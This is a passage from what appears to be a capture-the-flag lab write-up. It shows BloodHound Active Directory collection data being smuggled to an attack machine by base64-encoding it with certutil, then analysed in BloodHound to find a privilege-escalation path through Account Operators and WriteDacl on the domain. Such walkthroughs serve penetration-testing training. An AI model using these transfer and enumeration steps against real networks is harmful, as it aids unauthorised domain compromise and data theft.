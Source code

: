This outputs two files.

![](https://miro.medium.com/max/1346/1*ojhjoWq6RMjo7cAvGkbV9A.png)

We need to transfer the ZIP file to our attack machine. To do that, base64 encode the file.

```text
certutil -encode 20200321162811_BloodHound.zip test.txt
```

Then output the base64 encoded file.

```text
type test.txt
```

Copy it and base64 decode it on the attack machine.

```text
echo -n "<base64-encoded-value>" | base64 -d > bloodhound-result.zip
```

Alright, now that we how the zipped file on our attack machine, we need to upload it to BloodHound. If you don’t have BloodHound installed on your machine, use the following command to install it.

```text
apt-get install bloodhound
```

Next, we need to start up the neo4j database.

```text
neo4j console
```

Then run bloodhound.

```text
bloodhound
```

Drag and drop the zipped file into BloodHound. Then set the start node to be the _svc-alfresco_ user.

![](https://miro.medium.com/max/430/1*ZFaurDfOVvpid4vs9Eupaw.png)

Right click on the user and select “_Mark User as Owned_”.

![](https://miro.medium.com/max/478/1*qp1rgNv_-qSoQUg4Rmcdeg.png)

In the _Queries_ tab, select the pre-built query “_Shortest Path from Owned Principals_”.

![](https://miro.medium.com/max/464/1*27gUuo0gnBabPYkrJlukXw.png)

We get back the following result.

![](https://miro.medium.com/max/1329/1*U9yMLsgD9RsAicY5Is1Vsg.png)

From the above figure, we can see that _svc-alfresco_ is a member of the group _Service Accounts_ which is a member of the group _Privileged IT Accounts_, which is a member of _Account Operators_. Moreover, the _Account Operators_ group has _GenericAll_ permissions on the _Exchange Windows Permissions_ group, which has _WriteDacl_ permissions on the domain.
